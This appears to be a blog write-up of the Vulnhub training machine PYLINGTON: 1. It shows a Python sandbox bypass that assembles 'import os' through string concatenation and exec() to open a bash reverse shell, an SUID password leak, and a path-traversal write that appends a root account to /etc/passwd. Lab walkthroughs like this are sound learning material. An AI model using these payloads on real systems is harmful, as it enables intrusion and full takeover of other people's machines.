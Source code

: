 ```yaml
---
layout: post
title:  "Vulnhub: PYLINGTON: 1"
date:   2021-04-22 21:00:00 +1100
category: hacking
---
```


## PYLINGTON: 1
This is [PYLINGTON: 1](https://www.vulnhub.com/entry/pylington-1,684/) from Vulnhub. It doesn't have a rating but I'm going to say it was easy.

## Ports
SSH and HTTP, and running on Arch Linux. That's interesting, isn't it? No? Whatever.

## Web
We have an online python interpreter but in order to use it we are supposed to register; but registration has been disabled. *robots.txt* points us to */zbir7mn240soxhicso2z*, which contains some credentials, and we can use that to login. Once logged in, we get a page where we can enter a python program, give it input and see the output. 

We are also told:

>This online IDE is protected with NoImportOS™, an unescapable™ sandbox. NoImportOS™ is secure because of its simplicity; it's only 9 lines of code (available here)

What does that code look like?

{% highlight python %}
def check_if_safe(code: str) -> bool:
    if 'import' in code: # import is too dangerous
        return False
    elif 'os' in code: # os is too dangerous
        return False
    elif 'open' in code: # opening files is also too dangerous
        return False
    else:
        return True
{% endhighlight %}

So it's literally looking for the strings 'os', 'import' and 'open'. Should be easy, yes?

Here's my reverse shell - there are other ways of doing this, but this was mine:

{% highlight python %}
a = "im"
b = "port "
c = "o"
d = "s;"
e = "s"
f = ".system"
g = "('bash -i >& /dev/tcp/192.168.1.204/1234 0>&1')"
exec(a+b+c+d+c+e+f+g)
{% endhighlight %}

Does it work? Of course!

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/pylington]
└─# nc -nvlp 1234                                                                                                                                           1 ⨯
listening on [any] 1234 ...
connect to [192.168.1.204] from (UNKNOWN) [192.168.1.205] 38754
bash: cannot set terminal process group (186): Inappropriate ioctl for device
bash: no job control in this shell
[http@archlinux /]$
{% endhighlight %}

## PY and root
Getting to user (py) was very simple with an SUID binary:

{% highlight shell %}
[http@archlinux py]$ ./typing
./typing
Let's play a game! If you can type the sentence below, then I'll tell you my password.

the quick brown fox jumps over the lazy dog
the quick brown fox jumps over the lazy dog
54ezhCGaJV
[http@archlinux py]$ su py
su py
Password: 54ezhCGaJV
python3 -c 'import pty;pty.spawn("/bin/bash");'
[py@archlinux ~]$
{% endhighlight %}

Well, that was easy. The source code for the *typing* binary was provided too. 

Now, for root we have another SUID binary:

{% highlight shell %}
[py@archlinux secret_stuff]$ ls -lash
ls -lash
total 40K
4.0K drwx------ 2 py   py   4.0K Apr 22 08:38 .
4.0K dr-xr-xr-x 3 py   py   4.0K Apr 16 23:41 ..
 28K -rwsr-xr-x 1 root root  26K Apr  9 19:30 backup
4.0K -rw-r--r-- 1 root root  586 Apr  9 19:30 backup.cc
[py@archlinux secret_stuff]$ cat backup.cc
cat backup.cc
#include <iostream>
#include <string>
#include <fstream>

int main(){
    std::cout<<"Enter a line of text to back up: ";
    std::string line;
    std::getline(std::cin,line);
    std::string path;
    std::cout<<"Enter a file to append the text to (must be inside the /srv/backups directory): ";
    std::getline(std::cin,path);

    if(!path.starts_with("/srv/backups/")){
        std::cout<<"The file must be inside the /srv/backups directory!\n";
    }
    else{
        std::ofstream backup_file(path,std::ios_base::app);
        backup_file<<line<<'\n';
    }

    return 0;
}
[py@archlinux secret_stuff]$
{% endhighlight %}

What can we do with this? The trick is that the output directory has to *start with* */srv/backups*; but it doesn't have to end there.

{% highlight shell %}
[py@archlinux secret_stuff]$ ./backup
./backup
Enter a line of text to back up: root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd
/srv/backups/../../etc/passwd
[py@archlinux secret_stuff]$ cat /etc/passwd
cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
# snipped out for brevity
py:x:1000:1000::/home/py:/bin/bash
git:x:974:974:git daemon user:/:/usr/bin/git-shell
redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
[py@archlinux secret_stuff]$ su root2
su root2
Password: mrcake

[root@archlinux secret_stuff]# cd /root
cd /root
[root@archlinux ~]# ls -lash
ls -lash
total 64K
4.0K drwxr-x---  6 root root 4.0K Apr 16 23:42 .
4.0K drwxr-xr-x 17 root root 4.0K Apr 17 00:23 ..
8.0K -rw-------  1 root root 4.3K Apr 17 00:28 .bash_history
4.0K drwx------  4 root root 4.0K Apr  7 19:19 .cache
4.0K drwx------  3 root root 4.0K Apr  8 18:51 .config
4.0K drwx------  3 root root 4.0K Apr  7 18:27 .gnupg
4.0K -rw-------  1 root root  105 Apr  7 19:33 .rediscli_history
4.0K drwxr-xr-x  2 root root 4.0K Apr  7 19:06 .vim
 20K -rw-------  1 root root  17K Apr 16 23:42 .viminfo
4.0K -rw-r--r--  1 root root  336 Apr  7 19:01 .vimrc
4.0K -rw-r--r--  1 root root   33 Apr 16 23:42 root.txt
[root@archlinux ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@archlinux ~]# cat root.txt
cat root.txt
63a9f0ea7bb98050796b649e85481845
[root@archlinux ~]#
{% endhighlight %}
